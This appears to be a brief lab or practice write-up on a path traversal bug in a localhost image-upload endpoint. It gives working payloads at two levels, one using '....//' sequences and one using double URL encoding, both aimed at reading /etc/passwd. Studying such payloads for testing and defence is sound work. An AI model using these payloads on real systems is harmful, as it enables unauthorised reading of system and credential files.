

## Path Traversal

Bug in `http://localhost:3000/upload?image=`

### Easy

`http://localhost:3000/upload?image=....//....//....//....//etc/passwd`

### Medium

Use double URL Encode

`..%252F..%252F..%252F..%252Fetc%252Fpasswd`

